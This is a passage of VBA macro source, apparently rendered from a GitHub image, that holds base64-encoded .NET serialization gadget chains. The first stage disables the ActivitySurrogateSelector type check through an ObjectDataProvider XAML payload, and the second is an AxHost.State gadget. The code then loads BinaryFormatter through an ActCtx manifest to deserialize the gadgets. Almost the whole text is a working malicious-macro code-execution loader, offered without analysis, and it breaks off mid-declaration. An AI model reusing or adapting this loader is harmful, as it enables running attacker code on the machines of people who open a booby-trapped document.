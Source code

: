 ```vba
stage_1 = stage_1 & "ZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0"
stage_1 = stage_1 & "LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAxxA8UmVz"
stage_1 = stage_1 & "b3VyY2VEaWN0aW9uYXJ5DQogICAgICAgICAgICB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2"
stage_1 = stage_1 & "aW5nc30iIE1ldGhvZE5hbWUgPSJTZXQiPg0KICAgICAgICAgICAgICAgICAgICA8T2JqZWN0RGF0YVByb3ZpZGVyLk1ldGhvZFBh"
stage_1 = stage_1 & "cmFtZXRlcnM+DQogICAgICAgICAgICAgICAgICAgICAgICA8czpTdHJpbmc+bWljcm9zb2Z0OldvcmtmbG93Q29tcG9uZW50TW9k"
stage_1 = stage_1 & "ZWw6RGlzYWJsZUFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3JUeXBlQ2hlY2s8L3M6U3RyaW5nPg0KICAgICAgICAgICAgICAgICAg"
stage_1 = stage_1 & "ICAgICAgPHM6U3RyaW5nPnRydWU8L3M6U3RyaW5nPg0KICAgICAgICAgICAgICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5N"
stage_1 = stage_1 & "ZXRob2RQYXJhbWV0ZXJzPg0KICAgICAgICAgICAgICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyPg0KICAgICAgICAgICAgPC9SZXNv"
stage_1 = stage_1 & "dXJjZURpY3Rpb25hcnk+Cw=="

    
stage_2 = "AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRy"
stage_2 = stage_2 & "YWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUB"
stage_2 = stage_2 & "AAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMd7AAACAAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29s"
stage_2 = stage_2 & "bGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9"
stage_2 = stage_2 & "bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkC"
stage_2 = stage_2 & "ZSkGfwAAAClTeXN0ZW0uT2JqZWN0IENyZWF0ZUluc3RhbmNlKFN5c3RlbS5UeXBlKQgAAAAKAU4AAAAPAAAABoAAAAAmU3lzdGVt"
stage_2 = stage_2 & "LkNvbXBvbmVudE1vZGVsLkRlc2lnbi5Db21tYW5kSUQEAAAACToAAAAQTwAAAAIAAAAJggAAAAgIACAAAASCAAAAC1N5c3RlbS5H"
stage_2 = stage_2 & "dWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgITE9J07irREYv7AKDJ"
stage_2 = stage_2 & "Dyb3Cws="


    Dim stm_1 As Object, fmt_1 As Object
    
    manifest = "<?xml version=""1.0"" encoding=""UTF-16"" standalone=""yes""?>"
	manifest = manifest & "<assembly xmlns=""urn:schemas-microsoft-com:asm.v1"" manifestVersion=""1.0"">"
	manifest = manifest & "<assemblyIdentity name=""mscorlib"" version=""4.0.0.0"" publicKeyToken=""B77A5C561934E089"" />"
	manifest = manifest & "<clrClass clsid=""{D0CBA7AF-93F5-378A-BB11-2A5D9AA9C4D7}"" progid=""System.Runtime.Serialization"
	manifest = manifest & ".Formatters.Binary.BinaryFormatter"" threadingModel=""Both"" name=""System.Runtime.Serialization.Formatters.Binary.BinaryFormatter"" "
	manifest = manifest & "runtimeVersion=""v4.0.30319"" /><clrClass clsid=""{8D907846-455E-39A7-BD31-BC9F81468B47}"" "
	manifest = manifest & "progid=""System.IO.MemoryStream"" threadingModel=""Both"" name=""System.IO.MemoryStream"" runtimeVersion=""v4.0.30319"" /></assembly>"


    Set actCtx = CreateObject("Microsoft.Windows.ActCtx")
    actCtx.ManifestText = manifest
        
    Set stm_1 = actCtx.CreateObject("System.IO.MemoryStream")
    Set fmt_1 = actCtx.CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")

    Dim Decstage_1
```